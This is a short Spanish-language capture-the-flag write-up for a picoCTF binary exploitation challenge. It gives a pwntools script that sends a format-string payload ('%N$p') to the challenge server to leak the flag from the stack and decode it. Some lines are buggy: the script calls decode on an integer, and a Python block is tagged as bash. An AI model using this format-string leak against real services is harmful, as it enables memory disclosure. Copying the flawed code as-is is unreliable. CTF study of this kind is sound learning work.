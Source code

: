 ## Objetivos
Story telling class 1/2
Additional details will be available after launching your challenge instance.
## Solucion
para esta problema ya habias creado programas parecidos los ciales nos ayudaban a buscar la flag ya que se tenia que hacer a prueba y error manual mente y si te equivocabs empezabas desde cero pero esta ocasion crearemos un programa que nos ayude 
```bash
from pwn import *
context.arch = 'i386'
# create ELF object of the challenge's files we want to exploit
elf = ELF("./vuln")
flag_variable_pos = 36
payload = ""
# connect to server
r = remote('saturn.picoctf.net', 54296)
#r = process("./vuln")
# craft payload to read the flag from the stack
for i in range(flag_variable_pos, flag_variable_pos+16):
	payload += "%" + str(i) + "$p"

# send exploit once prompted
r.sendlineafter("Tell me a story and then I'll tell you one >> ", payload)

# to ignore "Here's a story - \n" message to be sent to us
r.recvuntil(b'\n')

# read the flag in little-endian hexadecimal values
response = r.recv()

# to process the hexadecimal values flag into a readable string
preflag = response.decode("utf-8").split("0x")
# clear empty string from list due to split()
preflag = [x for x in preflag if x]

flag = ""
for hexdec in preflag:
	try:
		# convert hexadecimal values to chars
		subflag = p32(int("0x" + hexdec, base=16)).decode("utf-8")
		flag += subflag
		
		# we will know it is the end of the flag
		if '}' in subflag:
			break
		
	# exception means we have definitely reached the end of the flag and is reading some garbage non-ASCII values like "(nill)"
	except Exception:
		# since %p prints out hexadecimal means the 4 characters are in reverse order, we need to reverse retrieve their bytes
		for single_hexdec1, single_hexdec2 in zip(hexdec[-2::-2], hexdec[-1::-2]):
			single_hexdec = single_hexdec1 + single_hexdec2
			# convert single hexadecimal value to integer
			ascii_val = int("0x" + single_hexdec, base=16)
			
			# add printable readable characters
			if 32 < ascii_val and ascii_val < 127:
				flag += ascii_val.decode("utf-8")
				
				# found '}' which means it is the end of the flag
				if ascii_val == 125:
					break
			else:
				# start of non-possible flag value. 
				break
		break

log.info(flag)

r.close()

```

## Referencias
[Ayuda](https://shakuganz.com/2022/03/30/picoctf-2022-write-up-binary-exploitation/)
